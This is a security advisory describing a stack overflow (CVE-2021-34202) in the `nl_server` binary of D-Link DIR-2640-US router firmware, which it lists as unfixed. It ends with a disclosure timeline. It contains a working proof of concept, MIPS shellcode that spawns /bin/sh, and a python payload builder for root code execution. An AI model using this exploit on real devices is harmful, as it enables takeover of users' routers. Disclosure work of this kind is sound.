 # Stack Overflow in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34202)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: None

## Severity

**High** 7.8 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Ordinary permissions can be elevated to administrator permissions, resulting in local arbitrary code execution.  An attacker can combine other vulnerabilities to further achieve the purpose of remote code execution.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server` does not enable any safe compilation options.

```shell
gef➤  checksec
[+] checksec for '_DIR2640A1_FW101B04.bin.extracted/_A0.extracted/_856EA8.extracted/cpio-root/usr/bin/nl_server'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

The process does not limit the length of parameters entered by the user.

![main_function](./images/main_function.png)

The variable `dword_414140`  is used again in the `sub_401F40`.

![main](images/main.png)

The variables entered by the user are stored in the stack space. Therefore, there is a stack overflow vulnerability in this function.

![stack_over_flow](images/stack_over_flow.png)



[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

Direct method

```shell
$ nl_server -i aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234
```

![poc1](images/poc1.png)

The return address of the process is directly modified by us to 1234 (ascii: 34333231)

## How to Exploit (exp)

`sp = 0x7fff6b70`, `sp + 0xa0 = 0x7fff6c10`

A suitable shellcode

```shell
char sc[] = {
    "\x24\x06\x06\x66" /* li a2,1638           */
    "\x04\xd0\xff\xff" /* bltzal a2,4100b4 <p> */
    "\x28\x06\xff\xff" /* slti a2,zero,-1      */
    "\x27\xbd\xff\xe0" /* addiu	sp,sp,-32      */
    "\x27\xe4\x10\x01" /* addiu	a0,ra,4097     */
    "\x24\x84\xf0\x1f" /* addiu	a0,a0,-4065    */
    "\xaf\xa4\xff\xe8" /* sw a0,-24(sp)        */
    "\xaf\xa0\xff\xec" /* sw zero,-20(sp)      */
    "\x27\xa5\xff\xe8" /* addiu	a1,sp,-24      */
    "\x24\x02\x0f\xab" /* li v0,4011           */
    "\x01\x01\x01\x0c" /* syscall 0x40404      */
    "/bin/sh"          /* sltiu	v0,k1,26990    */
                       /* sltiu	s3,k1,26624    */
}; //mipsel
```

Stack

```shell
┌────────────────┐ ◄────── sp
│                │
│                │
├────────────────┤ ◄────── sp + 0x18
│      v8        │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── sp + 0x4c
│      ra        │
xxxxxxxxxxxxxxxxxx ◄────── new_sp = sp + 0x50
│                │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── new_sp + 0x50
│   shellcode    │
├────────────────┤
│                │
│                │
└────────────────┘
```

Payload

```shell
python -c 'print "a" * 52 + "\x10\x6c\xff\x7f" + "b" * 0x50 + "\x66\x06\x06\x24"+  "\xff\xff\xd0\x04"+ "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" +  "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+  "\xab\x0f\x02\x24" +  "\x0c\x01\x01\x01"+ "/bin/sh" ' > payload
```

Our payload works correctly!

![exp3](../../../new/image/exp3.png)

This binary can be run by ordinary users, so local code execution can elevate ordinary permissions to root permissions.

Of course, the parameter (payload) is actually the name of the bridge. If we can modify the bridge name from the outside, we can implement remote code execution!

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment
- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
